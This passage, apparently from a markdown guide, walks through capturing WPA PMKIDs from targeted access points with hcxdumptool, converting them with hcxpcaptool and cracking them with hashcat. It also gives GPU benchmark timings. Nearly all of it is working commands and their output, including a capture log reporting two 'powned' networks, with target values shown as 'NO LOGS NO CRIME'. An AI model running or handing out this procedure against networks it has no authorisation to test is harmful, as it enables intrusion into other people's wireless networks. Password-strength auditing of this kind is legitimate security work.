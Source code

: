 #### 5.1. References
```
https://github.com/ZerBea/hcxdumptool
https://github.com/ZerBea/hcxtools
https://github.com/hashcat/hashcat
https://hashcat.net/forum/thread-7717.html
```


#### 5.2. Target AP by MAC addresses
```
# cat targets
DEADBEEF0001
DEADBEEF0002
DEADBEEF0003
DEADBEEF0004
```


#### 5.3. Collecting PMKIDs
```
# hcxdumptool -o beef.pcapng -i $iface -c 136, 60, 52 \
--enable_status=3 --filterlist=beef --filtermode=2

...
[04:39:48 - 136] deadbeef0001 -> deadbeeffff1 [FOUND PMKID CLIENT-LESS]
[04:39:50 - 136] deadbeef0002 -> ffffffffffff CG-WLAN [PROBEREQUEST, SEQUENCE 2076]
[04:39:56 - 136] deadbeef0003 -> deadbeeffff2 [FOUND PMKID CLIENT-LESS]
[04:40:15 - 136] deadbeef0004 -> ffffffffffff lisy [PROBEREQUEST, SEQUENCE 517]
INFO: cha=136, rx=16166, rx(dropped)=541, tx=51, powned=2, err=0^C
terminated...
```


#### 5.4. Convert PMKID to WPA-PMKID-PBKDF2 hash
```
# hcxpcaptool -z beef.16800 beef.pcapng
...
EAPOL PMKIDs.................: 2

2 PMKID(s) written to beef.16800
```


#### 5.5. Cracking via `hashcat`
```
# hashcat -m 16800 beef.16800 passwords.txt
```


#### 5.6. Hashcat benchmarks (`2 x Tesla P100-PCIE` via `nvidia-smi`)

1) 8 chars lowercase
```
Session..........: hashcat
Status...........: Running
Hash.Type........: WPA-PMKID-PBKDF2
Hash.Target......: [NO LOGS NO CRIME]
Time.Started.....: [NO LOGS NO CRIME] (8 secs)
Time.Estimated...: [NO LOGS NO CRIME] (2 days, 19 hours)
Guess.Mask.......: ?l?l?l?l?l?l?l?l [8]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   440.7 kH/s (64.47ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#2.........:   440.8 kH/s (64.46ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#*.........:   881.5 kH/s
```

2) 10 chars lowercase
```
Hash.Type........: WPA-PMKID-PBKDF2
Hash.Target......: [NO LOGS NO CRIME]
Time.Started.....: [NO LOGS NO CRIME] (50 secs)
Time.Estimated...: [NO LOGS NO CRIME] (5 years, 27 days)
Guess.Mask.......: ?l?l?l?l?l?l?l?l?l?l [10]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   440.7 kH/s (64.47ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#2.........:   440.8 kH/s (64.46ms) @ Accel:64 Loops:32 Thr:1024 Vec:1
Speed.#*.........:   881.5 kH/s
```
